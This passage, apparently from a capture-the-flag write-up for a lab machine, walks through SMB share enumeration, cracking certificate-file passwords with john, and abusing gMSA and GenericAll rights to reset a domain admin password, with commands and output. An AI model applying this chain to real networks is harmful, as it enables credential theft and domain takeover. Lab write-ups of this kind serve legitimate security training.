smb: \sierra.frye\Desktop\> more user.txt
getting file \sierra.frye\Desktop\user.txt of size 34 as /tmp/smbmore.TW3KdT (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

- `smbmap`
  - We have a certificates
  - They could be related to `search.htb/staff` page we saw from `gobuster`
```
─$ smbmap -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -H 10.10.11.129 -R 'RedirectedFolders$' 
[+] IP: 10.10.11.129:445        Name: search.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        RedirectedFolders$                                      READ, WRITE
...
        .\RedirectedFolders$\sierra.frye\Downloads\Backups\*
        dr--r--r--                0 Mon Aug 10 21:39:17 2020    .
        dr--r--r--                0 Mon Aug 10 21:39:17 2020    ..
        fr--r--r--             2643 Fri Jul 31 16:04:11 2020    search-RESEARCH-CA.p12
        fr--r--r--             4326 Mon Aug 10 21:39:17 2020    staff.pfx

```



- Let's download them
```
└─$ smbclient //10.10.11.129/RedirectedFolders$ -U 'sierra.frye%$$49=wide=STRAIGHT=jordan=28$$18'      
Try "help" to get a list of possible commands.
smb: \> cd sierra.frye\Downloads
smb: \sierra.frye\Downloads\> cd Backups\
smb: \sierra.frye\Downloads\Backups\> ls
  .                                 DHc        0  Mon Aug 10 21:39:17 2020
  ..                                DHc        0  Mon Aug 10 21:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 16:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 21:39:17 2020

                3246079 blocks of size 4096. 763285 blocks available
smb: \sierra.frye\Downloads\Backups\> prompt 
smb: \sierra.frye\Downloads\Backups\> mget * 
getting file \sierra.frye\Downloads\Backups\search-RESEARCH-CA.p12 of size 2643 as search-RESEARCH-CA.p12 (5.2 KiloBytes/sec) (average 5.2 KiloBytes/sec)
getting file \sierra.frye\Downloads\Backups\staff.pfx of size 4326 as staff.pfx (8.7 KiloBytes/sec) (average 6.9 KiloBytes/sec)
```

- When I try importing the certificates
  - Both require the password
  - None of the creds we have don't work




- Let's try cracking the hash using `john`
```
└─$ pfx2john search-RESEARCH-CA.p12 > search-RESEARCH-CA.p12.hash
```
```
└─$ pfx2john staff.pfx > staff.pfx.hash
```
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt search-RESEARCH-CA.p12.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (search-RESEARCH-CA.p12)     
1g 0:00:05:15 DONE (2023-09-24 11:32) 0.003170g/s 17390p/s 17390c/s 17390C/s missprin1956..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt staff.pfx.hash             
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (staff.pfx)     
1g 0:00:05:00 DONE (2023-09-24 11:37) 0.003324g/s 18234p/s 18234c/s 18234C/s missprin1956..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

- Now we can import the certs and visit https://search.htb/staff
  - Select the `sierra.frye`'s cert




- Now we have login page for `Windows PowerShell Web Access`
  - Use the `sierra.frye`'s creds and `research` as computer name






## Root
- To recap
  - We have `ReadGMSAPassword` over `BIR-ADFS-GMSA` 
  - `BIR-ADFS-GMSA` has `GenericAll` over domain admin `TRISTAN.DAVIES`


- Let's retrieve [GMSA](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/) password
  - https://www.thehacker.recipes/a-d/movement/dacl/readgmsapassword
  - Set `TRISTAN.DAVIES`'s password
    - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-on-user
    - We can use [Set-ADAccountPassword](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adaccountpassword?view=windowsserver2022-ps)





- Check with `crackmapexec`

```
└─$ crackmapexec smb 10.10.11.129 -u tristan.davies -p 'P@ssw0rd123'
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\tristan.davies:P@ssw0rd123 (Pwn3d!)
```

- `psexec` didn't work, but `wmiexec` does the job


